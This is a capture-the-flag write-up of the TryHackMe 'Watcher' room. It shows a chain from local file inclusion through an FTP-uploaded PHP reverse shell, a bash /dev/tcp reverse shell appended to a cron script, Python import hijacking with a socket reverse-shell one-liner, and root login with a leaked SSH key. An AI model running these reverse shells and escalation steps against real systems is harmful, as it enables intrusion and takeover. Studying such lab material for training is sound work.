# Room: [Watcher](https://tryhackme.com/room/watcher)

## Overview
This write‑up covers the *Watcher* room on [TryHackMe](https://tryhackme.com), created by [USWCSS](https://tryhackme.com/p/USWCSS).

The objective of this room is to gain root access to the Watcher machine through a series of privilege‑escalation steps.

## Setup
- **Tools used:** `nmap`,`gobuster`,`netcat`
- **Techniques:** Web fuzzing and enumeration, Remote code execution, Local file inclusion, Python inport hjacking, Sudo misconfigurations, Backup and Cron related preivilege escalation.
- **Notes:** This was my first medium‑difficulty room, and it was a great learning experience.

---

## Methodology

#### Enumeration

I began by scanning the target IP address with a basic `nmap` command:

```bash
nmap <Target IP>
```



The scan revealed three ports open `FTP (21)`, `SSH (22)` and `HTTP (80)`.

Since port 80 was open, I started by visiting the web page at `http://<Target IP>`. The site appeared to be a small blog for “fans and lovers of cork‑based placemats.”



At first I didn't find anything useful clicking arround the site, so I moved on to fuzzing the web server with `gobuster` to look for hidden directories, using the `common.txt` wordlist:


```bash
gobuster dir -u <Target IP> -w /usr/share/wordlists/dirb/common.txt
```



The scan returned four interesting paths:

`/index.php` → the homepage     
`/css` → stylesheet files       
`/images` → site images     
`/robots.txt` → standard crawler instructions

The `robots.txt` file pointed me to my first flag, but attempting to access `/secret_file_do_not_share` didn’t work.

    


While exploring the site further, I noticed something interesting: when clicking on images, the URL changed from a simple page like `image.php` to a parameterized version such as: `/post.php?post=`.



This hinted at a `Local File Inclusion` vulnerability and testing it by attempting to read `/etc/passwd` was successful.



Viewing the page´s source made the output easier to read, and from the contents of `/etc/passwd` I identified three system users of interest:

`Will`, `Mat` and `Toby`.



Since the `LFI` worked, I used it again to read the previously discovered `secret_file_do_not_read.txt`.    
This file contained a message revealing the credentials for the user `ftpuser`, along with a hint about where important files might be stored.



#### FTP access

Using the newly discovered credentials, I logged into the FTP server as `ftpuser` without any issues.


Listing `ftpuser's` home directory revealed not only the very interesting empty `files` directory, but also `flag_2.txt`.



I downloaded `flag_2.txt` using the `get` command and retrieved it without any issues.

        


To move forward, I made use of the empty `files` directory available to the FTP user.       
I prepared a PHP file locally, adjusted it to point back to my machine, and ensured it had the correct permissions.

```bash
cp /usr/share/webshells/php/php-reverse-shell-php shell.php && chmod +x shell.php
```



After preparing the file, I logged back into the FTP server as `ftpuser` and uploaded it using the `put` command.



Once the file was in place, I accessed it through the web application by referencing its path in the URL:

```bash
<Target IP>/post.php?post=/home/ftpuser/ftp/files/shell.php
```



My listener immediately received a connection, giving me access as the `www-data` user.



#### Privilege escalation

To get a sense of where the remaining flags were located, I used the following command to search the filesystem:

```bash
find / -type f -name "flag_?.txt" 2>/dev/null
```



With their locations identified, I navigated to `/var/www/html/more_secrets_a9f10a` and retrieved flag 3.



The remaining flags were stored in other users’ home directories, which I couldn’t access as `www-data`. To move forward, I checked for any privilege escalation opportunities using `sudo -l`. The output showed that the user toby was allowed to run commands without a password.



After switching to `toby` with:

```bash
sudo -u toby /bin/sh
```

I was able to retrieve the user flag.



To make the session easier to work with, I upgraded the shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```



With a more stable shell, I explored Toby’s home directory. An `ls` revealed two items of interest: a `note.txt` file and a `jobs` directory.



The note hinted at scheduled tasks, so I checked the system’s scheduled jobs by inspecting `/etc/crontab`.      
Inside, I found a cron entry that executed a script named `cow.sh` as the user `mat`.



Using `cat` to view `cow.sh` we can see that it simply copies `cow.png` from mat´s home directory to `/tmp`.



I added a final line to the script using `echo`:

```bash
echo 'bash -i >& /dev/tcp/<Attacker IP>/<Port> 0>&1' >> cow.sh
```



After that, I simply waited for the scheduled task to run. As soon as the cron job executed `cow.sh` as the user `mat`, my listener received a connection and I obtained Mat’s user flag.



Exploring Mat’s home directory revealed another note, this time from `will`, the next user in the escalation chain.

The note hinted at Mat’s sudo permissions. Checking them with sudo -l confirmed that Mat was allowed to run a specific Python script as Will.



Inside the scripts directory, I noticed that `will_script.py` was owned by `will`, meaning Mat didn’t have permission to modify it.

However, the file `cmd.py` belonged to `mat` and was fully writable.



I examined `will_script.py` first.  The script imports `cmd.py` and uses it to determine which command should be executed.       



Looking at `cmd.py`, it simply defined a small dictionary that mapped numbers to whitelisted commands.



Because `cmd.py` was writable by Mat, I replaced its contents with my own script. This allowed me to control what happened when `will_script.py` imported it.

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Attacker IP>",<Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > cmd.py
```
`I also saved this script separately in the directory for easier reference.`



With `cmd.py` modified, the next step was simply to run the allowed script as Will:

```bash
sudo -u will python3 /home/mat/scripts/will_script.py cmd.py
```



As soon as the script executed, my listener received a connection and I gained access as `will`.



With access as `will`, the final step was to obtain the root flag.

While exploring the system, I found a file named `key.b64` inside the `/opt/backups` directory.



The file appeared to be Base64‑encoded, so I decoded it and saved the output as `id_rsa`:

```bash
base64 -d key.b64 > id_rsa
```



After checking the file, it turned out to be an RSA private key. I adjusted its permissions accordingly and used it to authenticate as the `root` user:

```bash
ssh -i id_rsa root@<Target IP>
```

This provided a `root` shell.



And the `root` flag.




---
